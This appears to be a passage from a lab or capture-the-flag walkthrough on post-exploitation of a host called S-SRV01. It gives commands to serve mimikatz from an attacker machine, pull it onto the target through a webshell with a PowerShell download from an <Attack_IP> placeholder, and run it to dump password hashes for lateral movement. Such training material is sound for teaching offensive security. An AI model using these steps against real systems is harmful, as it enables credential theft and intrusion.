 You are already the highest user, so no need for Privilege Escalation. Use a hash dumping tool like `mimikatz` because it gives you opportunity to get hashes that you can use for lateral movement.

## Transfer the mimikatz binary to S-SRV01

- Download it from official github `mimikatz.exe` (it’s a windows 64 machine so make sure to grab the right binary).
- Run a python server on the attacking machine where the mimikatz.exe file is.
	`python3 -m http.server 80`
- Host it on the S-SRV01. On the  http://10.200.X.31/images/webshell.php field type:
	`iwr http://<Attack_IP>/mimikatz.exe -outfile c:\windows\temp\mimikatzmine.exe`
Finally execute it.